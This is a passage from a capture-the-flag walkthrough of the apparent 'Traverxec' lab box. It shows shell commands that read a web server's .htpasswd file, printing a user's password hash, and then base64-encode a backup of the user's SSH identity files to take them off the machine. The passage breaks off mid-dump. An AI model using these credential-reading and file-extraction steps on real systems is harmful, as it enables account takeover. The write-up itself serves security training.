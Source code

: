 ```shell:nhttpd.conf

homedirs		/home
homedirs_public		public_www
```

After that, look at `/var/mpstromo/conf/.passwd`.<br>
We can find a hash for an user `david`.
```shell:nhttpd.conf
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd   
cat .htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Besides, we can find a directory `protected-file-area` in `/home/david`.
```shell
www-data@traverxec:/home/david/public_www$ ls -la
ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25 15:45 .
drwx--x--x 5 david david 4096 Oct 25 17:02 ..
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area
```

Then, go to `protected-file-area`.<br>
We have an archive `backup-ssh-identity-files.tgz`.
```shell
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
ls
backup-ssh-identity-files.tgz
```

Using base64 encoding way, we can transfer the archive to the localhost.<br>
First, base64 encode the archive file.
```shell
www-data@traverxec:/home/david/public_www/protected-file-area$ base64 backup-ssh-identity-files.tgz
<ted-file-area$ base64 backup-ssh-identity-files.tgz           
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
```